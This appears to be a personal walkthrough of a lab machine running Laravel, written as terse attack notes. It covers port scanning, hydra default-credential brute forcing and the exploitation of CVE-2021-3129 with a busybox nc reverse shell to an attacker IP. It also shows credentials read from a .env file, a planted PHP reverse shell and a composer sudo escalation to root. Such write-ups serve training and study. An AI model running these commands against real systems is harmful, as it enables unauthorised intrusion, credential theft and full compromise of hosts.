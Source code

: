 ### Enumeration
```
IP=192.168.170.38
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
	- OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
- 80
	- Apache httpd 2.4.56 ((Debian))
### Foothold
- 21
	- ftp anonymous@$IP
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- RPC/ SMB
	- enum4linux $IP
- 445
	- smbclient -N -L //$IP
	- nmap --script smb-vuln* -p135,139,445 $IP
- SQL
	- Mysql
		- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt mysql://$IP
	- Postgres
		- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/postgres-betterdefaultpasslist.txt postgres://$IP
- 80
	- Default landing page
		- ![[Pasted image 20240814095853.png]]
		- ![[Pasted image 20240814095924.png]]
			- Sign up buttons do nothing
			- Contact box
				- Redirects to: http://192.168.170.38/action_page.php?Name=abc&Email=abc%40abc.com&Message=hehe&Like=on
				- Gives us version number
	- Team
		- Johnny Skunk
		- Rebecca Flex
		- Jan Ringo
		- Kai Ringo
		- Paul McCartney
		- Maynard James Kenna
		- Deborah Anne Dyer OBE
	- Versions
		- Laravel 8.4.0
			- Laravel 8.4.2 debug mode - Remote code execution
			- python3 CVE-2021-3129.py
				- ![[Pasted image 20240814104002.png]]
			- python3 CVE-2021-3129.py --exec 'busybox nc 192.168.45.163 21 -e /bin/bash'
				- Leads to RCE
	- Directory Brute force
		- dirsearch -u http://$IP
			- /register
				- Let me register as new user
			- /login
			- /web.config
				- white page
			- /robots.txt
				- nothing
			- /images
				- forbidden
			- /javascript
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
	- Logged in
		- ![[Pasted image 20240814100410.png]]
			- Turned debug on
		- dirsearch -u http://$IP/home
### PE
#### Linux
- www-data
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- needs password
	- uname -a
		- `Linux debian 5.10.0-25-amd64 #1 SMP Debian 5.10.191-1 (2023-08-16) x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- ping
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- skunk
	- netstat -ano
		- Active ports
			- nothing new
	- Directories to check
		- /opt
			- Check GTFO Bins. Treated as SUID
			- empty
	- linpeas
		- Possible Exploits
			- idrty pipe
		- Interesting Files
			- /var/www/html/lavita/config/database.php
				- user forge  db forge
			- /var/www/html/lavita/.env
				- DB user: lavita
				- DB pass: sdfquelw0kly9jgbx92
	- sql
		- mysql -u lavita -p
			- sdfquelw0kly9jgbx92
			- DBs
				- information_schema
				- lavita
					- users
						- only my user
					- password_resets
						- nothing
	- pspy64
		- ![[Pasted image 20240814111222.png]]
	- User has write over /var/www/html/lavita
		- artisan is a php file
		- Used php rev and editted the IP and port
		- Moved to target and named it artisan
		- Received shell as skunk
		- ![[Pasted image 20240814112537.png]]
		- ![[Pasted image 20240814112544.png]]
- skunk
	- id
		- uid=1001(skunk) gid=1001(skunk) groups=1001(skunk),27(sudo),33(www-data)
	- sudo -l
		- ALL
		- `(root) NOPASSWD: /usr/bin/composer --working-dir\=/var/www/html/lavita *
			- GTFO bins
				- cd /var/www/html/lavita
				- `echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > composer.json
				- sudo /usr/bin/composer --working-dir\=/var/www/html/lavita x
					- This only runs x for some reason 
					- Gives us root
		- sudo su
			- needs password
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- linpeas
		- nothing new
	- pspy64
### Credentials
### Lessons Learned